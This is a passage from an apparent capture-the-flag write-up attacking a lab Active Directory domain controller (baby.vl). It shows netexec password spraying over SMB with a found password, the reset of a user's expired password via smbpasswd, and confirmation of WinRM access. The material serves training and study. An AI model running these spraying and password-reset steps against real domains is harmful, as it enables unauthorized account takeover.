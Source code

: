 We successfully enumerated some users on the DC and a potential credential `Teresa.Bell:BabyStart123!`&#x20;

## Password Spraying

As we found a bunch of users and password it is only natural to perform a *password spraying attack* on every user we found, let's use `netexec` again in order to do this, this time  we will target the *SMB* service

```bash
netexec smb babydc.baby.vl -u ../content/users.txt -p 'BabyStart123!' --users
SMB         10.129.50.21    445    BABYDC           [*] Windows Server 2022 Build 20348 x64 (name:BABYDC) (domain:baby.vl) (signing:True) (SMBv1:False) 
SMB         10.129.50.21    445    BABYDC           [-] baby.vl\Guest:BabyStart123! STATUS_LOGON_FAILURE 
SMB         10.129.50.21    445    BABYDC           [-] baby.vl\Jacqueline.Barnett:BabyStart123! STATUS_LOGON_FAILURE 
SMB         10.129.50.21    445    BABYDC           [-] baby.vl\Ashley.Webb:BabyStart123! STATUS_LOGON_FAILURE 
SMB         10.129.50.21    445    BABYDC           [-] baby.vl\Hugh.George:BabyStart123! STATUS_LOGON_FAILURE 
SMB         10.129.50.21    445    BABYDC           [-] baby.vl\Leonard.Dyer:BabyStart123! STATUS_LOGON_FAILURE 
SMB         10.129.50.21    445    BABYDC           [-] baby.vl\Connor.Wilkinson:BabyStart123! STATUS_LOGON_FAILURE 
SMB         10.129.50.21    445    BABYDC           [-] baby.vl\Joseph.Hughes:BabyStart123! STATUS_LOGON_FAILURE 
SMB         10.129.50.21    445    BABYDC           [-] baby.vl\Kerry.Wilson:BabyStart123! STATUS_LOGON_FAILURE 
SMB         10.129.50.21    445    BABYDC           [-] baby.vl\Teresa.Bell:BabyStart123! STATUS_LOGON_FAILURE 
SMB         10.129.50.21    445    BABYDC           [-] baby.vl\Caroline.Robinson:BabyStart123! STATUS_PASSWORD_MUST_CHANGE                                                                                                                    4s
```

And we see a different status on the `Caroline.Robinson` account: `STATUS_PASSWORD_MUST_CHANGE`&#x20;

We can abuse this using `smbpasswd` , changing the targeted users password to a new password that we decide, in this case we will use `BabyStarted123!` for example:

```bash
smbpasswd -U Caroline.Robinson -r $TARGET
Old SMB password: BabyStart123!
New SMB password: BabyStarted123!
Retype new SMB password: BabyStarted123!
```

Now we can check if this user has got any remote connection privilege, we will check `winrm` which is active on `TCP 5985`&#x20;

```
metexec winrm babydc.baby.vl -u 'Caroline.Robinson' -p 'BabyStarted123!'
WINRM       10.129.50.21    5985   BABYDC           [+] baby.vl\Caroline.Robinson:BabyStarted123! (Pwn3d!)
```
